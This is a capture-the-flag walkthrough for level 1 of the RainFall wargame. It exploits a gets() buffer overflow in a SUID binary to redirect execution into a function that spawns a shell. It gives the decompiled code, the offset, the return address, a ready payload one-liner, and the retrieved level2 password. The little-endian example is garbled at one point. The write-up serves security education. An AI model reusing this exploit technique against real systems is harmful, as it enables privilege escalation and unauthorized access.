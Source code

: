## Level 1 Walkthrough

### Who am I?

```bash
level1@RainFall:~$ id
uid=2001(level1) gid=2001(level1) groups=2001(level1)
```

### Where am I?

```bash
level1@RainFall:~$ ll
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

We are in possession of a SUID binary owned by `level2`. Our objective is to exploit this binary to gain a shell as `level2` and read the corresponding `.pass` file.

---

## Program Behavior

The program accepts input from stdin and immediately returns. It does not provide any feedback, which suggests that its behavior is silent unless something specific is triggered.

Here are a few examples:

```bash
level1@RainFall:~$ ./level1
hello
level1@RainFall:~$ ./level1
123
level1@RainFall:~$ echo "test" | ./level1
level1@RainFall:~$
```

In each case, the program accepts the input and exits quietly, without printing anything or showing an error message. This confirms that it expects a very specific input or is relying on hidden internal logic.

---

## Static Analysis (Ghidra)

Using Ghidra, we observe two key functions:

### `void run(void)`

```c
void run(void)
{
  fwrite("Good... Wait what?\n", 1, 19, stdout);
  system("/bin/sh");
}
```

This function prints a message and attempts to spawn a shell.

### `void main(void)`

```c
void main(void)
{
  char buffer[76];
  gets(buffer);
}
```

The use of `gets()` is unsafe, as it does not check the length of user input. This presents a classic buffer overflow opportunity.

---

## Exploitation Strategy

### Step 1: Identify the overflow offset

We want to find how many bytes it takes to reach and overwrite the return address. Using trial and error or pattern generation, we determine this offset is **76 bytes**.

### Step 2: Find `run()` address

Using GDB:

```bash
(gdb) p &run
$1 = (<text variable, no debug info> *) 0x8048444 <run>
```

### Step 3: Craft the payload

Before building the payload, it is important to understand how memory addresses are represented in this architecture.

#### Why little-endian?

The system we're exploiting runs on an **x86 (i386)** architecture, which uses **little-endian** byte ordering. This means that when a multi-byte value (like an address) is stored in memory, its **least significant byte (LSB)** is stored first.

For example, if the address of `run()` is:

```
0x08048444
```

Then it must be written in memory as:

```
D
```

This is because memory reads the bytes from lowest to highest address, and in little-endian systems, the LSB comes first.

If you were to write it as `D`, it would actually represent a totally different address (0x44840408), and your exploit would fail.

* 76 bytes of filler (e.g. "A" \* 76)
* Address of `run()` in little-endian format: `\x44\x84\x04\x08`

```bash
python -c 'print("A" * 76 + "\x44\x84\x04\x08")' > /tmp/exploit
```

### Step 4: Make the shell interactive

If we run:

```bash
level1@RainFall:~$ cat /tmp/exploit | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

The message "Good... Wait what?" confirms that the `run()` function was successfully invoked, but the shell dies immediately afterward. This happens because the pipe (`|`) closes the standard input (`stdin`) of the child process.

As a result, the shell spawned by `system("/bin/sh")` cannot read input and exits instantly.

To fix this, we use `-` with the `cat` command. This tells `cat` to concatenate both `/tmp/exploit` **and** the terminal's `stdin`, so that `./level1` receives the exploit payload and can still read from user input afterward:

```bash
cat /tmp/exploit - | ./level1
```

This keeps the shell open and interactive.

### Step 5: Validate access

```bash
$ whoami
level2
$ cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

---

## Files in this repository

```
* `flag.txt` file containing the retrieved flag  
* `asm_analysis.md` GDB analysis of the binary  
* `decompiled_level0/` folder containing the reconstructed C code from Ghidra  
```

